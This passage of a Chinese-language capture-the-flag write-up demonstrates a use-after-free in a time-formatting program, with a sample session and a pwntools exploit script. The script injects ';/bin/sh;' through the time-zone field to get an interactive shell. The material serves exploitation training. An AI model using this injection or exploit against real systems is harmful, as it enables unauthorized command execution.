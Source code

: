 ```
> 2
Enter your unix time: 111
Time set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 5
Are you sure you want to exit (y/N)? 
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 3
Time zone: BBB
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 4
Your formatted time is: BBB
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 
```

注意到Your formatted time is: BBB，正常应该是释放掉了，这就是UAF漏洞的表现形式。

根据上面的测试情况，我们编写python脚本如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './807522d1647f4f0b8b26d6c1530d72b7'
p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
# p = remote('111.198.29.45', 45404)

def select_menu(choice, payload):
	p.sendlineafter('5) Exit.\n> ', str(choice))
	if len(payload) > 0:
		p.sendlineafter(': ', payload)
	else:
		p.sendline('')

select_menu(1, 'AAA')
select_menu(2, '111')
select_menu(5, '')
select_menu(3, '\';/bin/sh;\'')
select_menu(4, '')

p.interactive()
```
